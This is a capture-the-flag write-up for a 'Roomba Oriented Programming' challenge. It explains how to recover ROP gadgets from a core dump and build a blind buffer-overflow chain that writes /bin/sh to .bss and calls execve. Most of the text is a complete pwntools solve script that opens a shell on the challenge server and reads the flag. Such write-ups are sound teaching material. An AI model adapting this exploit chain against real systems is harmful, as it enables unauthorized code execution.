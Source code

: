 ## Roomba Oriented Programming 
it's a straightforward BoF players need to build a ROP chain using the gadgets available in the core dump. The idea is to:
- Use a read syscall to write /bin/sh into .bss.
- Execute an execve("/bin/sh", NULL, NULL) syscall using ROP gadgets.

The twist: exploitation must be done blindly against a remote server where the binary is running. The difficulty lies in analyzing the core dump to recover useful gadgets and offsets, since the ELF isn’t provided.

You can find gadgets with gdb. Load the core dump file with: `gdb -q -core roomba_oriented_programming.core`
![alt text](image.png)

### Solve script
```py
from pwn import *

io = remote('127.0.0.1', 7373)

io.recvuntil(b'secret shutdown command')

OFFSET = 24
XOR_RAX_RAX = 0x401184
XOR_EAX_EAX = 0x401185
XOR_EDI_EDI = 0x40118f
POP_RDX = 0x401182  
POP_R15 = 0x401196
BSS_ADDR = 0x404200
MOV_RSI_R15 = 0x401192
POP_RDI = 0x40119c
MOV_EAX_3B = 0x401188
XOR_R15_R15 = 0x40118e
SYSCALL = 0x401199
RET = 0x401208

payload = b'A' * OFFSET

#? 1 - Write /bin/sh\x00 to BSS
payload += p64(RET)
payload += p64(XOR_RAX_RAX) #? read
payload += p64(XOR_EDI_EDI) 
payload += p64(POP_RDX)
payload += p64(8) #? size

payload += p64(POP_R15)
payload += p64(BSS_ADDR) #? address of BSS 
payload += p64(MOV_RSI_R15)
payload += p64(SYSCALL)

#? 2- pop rdi and store the address of the BSS /bin/sh\x00
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BSS_ADDR)

#? 3 - Set rax to 0x3b (execve syscall)
payload += p64(XOR_EAX_EAX)
payload += p64(MOV_EAX_3B)

#? 4 - zero out rsi
payload += p64(XOR_R15_R15)
payload += p64(MOV_RSI_R15)

#? 5 - Set rdx to 0
payload += p64(POP_RDX)
payload += p64(0)

#? 6 - Syscall
payload += p64(SYSCALL)

io.sendline(payload)
sleep(1)
io.sendline(b'/bin/sh\x00')
sleep(1)
io.sendline(b'cat flag.txt')
io.interactive()
```